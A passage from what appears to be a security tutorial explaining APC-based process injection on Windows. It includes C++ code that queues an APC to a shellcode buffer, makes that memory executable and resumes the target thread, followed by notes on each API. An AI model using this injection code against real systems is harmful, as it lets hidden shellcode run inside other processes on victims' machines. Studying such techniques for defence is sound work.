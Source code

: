 - **VirtualAllocEx:** It is used to allocate memory in the address space of a specific remote process.
  - **hProcess:** The process handle obtained by calling `CreateProcessW`.
  - **cbSize:** The size of payload in bytes.
  - **MEM_COMMIT \| MEM_RESERVE:** The type of allocation for the memory region is specified.
  - **PAGE_READWRITE:** The memory protection of the memory region.
- **WriteProcessMemory:** It is used to write the shellcode into the previously allocated memory buffer.

**Note:** Be aware, if the function succeeds it returns a memory buffer to the caller, otherwise it returns a null pointer.

- **Program entry point:**

The code segment below belongs to the main entry point of our program, where we call the `QueueUserAPC` and `ResumeThread` functions.

{% highlight CPP %}

    PTHREAD_START_ROUTINE APCroutine { static_cast<PTHREAD_START_ROUTINE>(lpBuffer) };
    if(!QueueUserAPC((PAPCFUNC)APCroutine, hThread, NULL))
    {
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
        std::cerr << "\\t[-] Failed to queue the APC in the primary thread: 0x" << hThread << std::endl;
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RESET);

        VirtualFreeEx(hProcess, lpBuffer, 0, MEM_RELEASE);
        TerminateProcess(hProcess, GetExitCodeProcess(hProcess, &dwExitCode));
        return 1;
    }

    bMemProtect = VirtualProtectEx(hProcess, lpBuffer, sizeof(payload), PAGE_EXECUTE_READWRITE, &dwOldProtect);
    if(bMemProtect)
    {
        std::cout << "[+] Change memory protection from RW to RWX: 0x" << lpBuffer << "->RWX" << std::endl;
        std::cout << "[+] Queuing APC in thread: 0x" << hThread << std::endl;
        std::cout << "[+] Resume thread and executing shellcode in target process!" << std::endl;
        ResumeThread(hThread);
        system("pause");
    }
    {% endhighlight %}

- **QueueUserAPC:** It is used to queue an `APC` (Asynchronous Procedure Call) object in a thread. Note that before the APC executes, the thread must be in an alertable state, so we call ResumeThread.
  - **(PAPCFUNC)APCroutine:** An APC routine with the address of the buffer containing the payload/shellcode to be executed.
  - **hThread:** A handle to the main thread of the target process. You get that by calling the `CreateTargetProcess` function.
- **ResumeThread:** Checks the suspend count of a suspended process, decrements it to zero, and resumes thread execution.
- **VirtualProtecEx:** Change memory protection from RW to RWX to be able to execute shellcode.
  - **hProcess:** The process handle obtained by calling CreateProcessW.
  - **lpBuffer:** The memory buffer where the payload/shellcode is.
  - **sizeof(payload):** Size of payload in bytes.

